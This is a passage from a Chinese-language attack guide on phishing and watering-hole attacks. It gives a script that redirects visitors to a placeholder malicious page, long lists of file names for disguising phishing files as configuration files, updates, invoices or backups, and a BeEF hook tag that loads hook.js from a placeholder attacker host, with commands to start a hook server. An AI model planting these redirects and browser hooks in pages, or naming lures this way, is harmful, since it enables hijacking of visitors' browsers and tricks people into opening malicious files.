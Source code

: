 ```javascript
<script>
  window.location.href = "http://IP地址或域名/malicious_page";
</script>
```

### 钓鱼文件

#### 常见伪装配置文件的文件名

系统或应用程序配置文件:

+ config.ini / settings.ini
+ config.xml / settings.xml
+ config.json / settings.json
+ app.config
+ web.config
+ system.cfg
+ default.cfg
+ .env (环境变量文件)
+ log4j2.xml / log4j.properties
+ server.properties
+ database.config / db.config
+ application.properties

软件或工具的配置文件:

+ vpn.conf
+ proxy.conf
+ ssh.config / ssh_config
+ docker-compose.yml
+ gitconfig
+ gradle.properties
+ .bashrc / .zshrc (Shell 配置文件)
+ hosts (hosts 文件)
+ ldap.conf

与安全相关的配置文件:

+ ca.crt (根证书)
+ client.crt (客户端证书)
+ server.key (服务器私钥)
+ vulnerability.report
+ security.conf
+ firewall.conf

临时文件或备份文件:

+ backup.ini / backup.xml
+ temp.ini / temp.xml
+ old.ini / old.xml
+ ~config.ini

其他配置文件：

+ readme.txt
+ license.txt
+ install.txt

#### 常见伪装压缩包的文件名

以update为主题的文件名:

+ update.zip / update.rar / update.7z
+ patch.zip / patch.rar / patch.7z
+ security_update.zip / security_update.rar
+ system_update.zip / system_update.rar
+ software_update.zip / software_update.rar

以backup为主题的文件名:

+ backup.zip / backup.rar / backup.7z
+ data_backup.zip / data_backup.rar
+ full_backup.zip / full_backup.rar
+ system_backup.zip / system_backup.rar

以document或report为主题的文件名:

+ report.zip / report.rar / report.7z
+ document.zip / document.rar / document.7z
+ invoice.zip / invoice.rar
+ contract.zip / contract.rar
+ statement.zip / statement.rar

以archive为主题的文件名:

+ archive.zip / archive.rar / archive.7z
+ archive_data.zip / archive_data.rar

以tool或utility为主题的文件名:

+ tool.zip / tool.rar / tool.7z
+ utility.zip / utility.rar / utility.7z
+ installer.zip / installer.rar

与软件或服务相关的压缩包名:

+ vpn.zip / vpn.rar / vpn.7z
+ proxy.zip / proxy.rar / proxy.7z
+ server_config.zip / server_config.rar

其他常见压缩包名:

+ files.zip / files.rar
+ data.zip / data.rar
+ images.zip / images.rar
+ assets.zip / assets.rar
+ logs.zip / logs.rar

### Hook网站

BeEF:

```bash
<script src="http://IP地址或域名:3000/hook.js"></script>
```

[hook_server.py](水坑攻击/hook_server.py)

```bash
├── templates
│   └── index.html
```

[index.html](水坑攻击/index.html)

```bash
pip install flask-cors
python hook_server.py
```

### 
